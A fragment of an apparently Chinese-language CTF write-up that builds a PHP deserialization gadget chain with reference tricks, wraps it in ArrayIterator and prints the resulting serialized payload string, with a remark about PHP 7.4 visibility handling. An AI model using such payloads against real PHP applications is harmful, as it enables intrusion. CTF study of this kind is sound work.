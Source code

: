 ```
}
class important{
    public $power;

}
class useless
{
    public $seeyou;
    public $QW;
    public $YXX;
}

$me=new Me();
$her=new her();
$important=new important();
$useless=new useless();
$me->bro=&$me->secret;
$me->qwe=$her;
$her->asd=$important;
$important->power=$useless;
$useless->seeyou['seeyou']=[$her, 'find'];
echo serialize( new ArrayIterator(array($me)));
#C:13:"ArrayIterator":275:{x:i:0;a:1:{i:0;O:2:"Me":3:{s:3:"qwe";O:3:"her":3:{s:7:"hername";s:4:"momo";s:3:"key";i:9;s:3:"asd";O:9:"important":1:{s:5:"power";O:7:"useless":3:{s:6:"seeyou";a:1:{s:6:"seeyou";a:2:{i:0;r:5;i:1;s:4:"find";}}s:2:"QW";N;s:3:"YXX";N;}}}s:3:"bro";N;s:6:"secret";R:16;}};m:a:0:{}}
```

这里忘了说了，题目环境是7.4，PHP版本大于7就对private和public不敏感了，上面没改将就看吧

进入find函数看看

![](./images/1700710302-image.png)
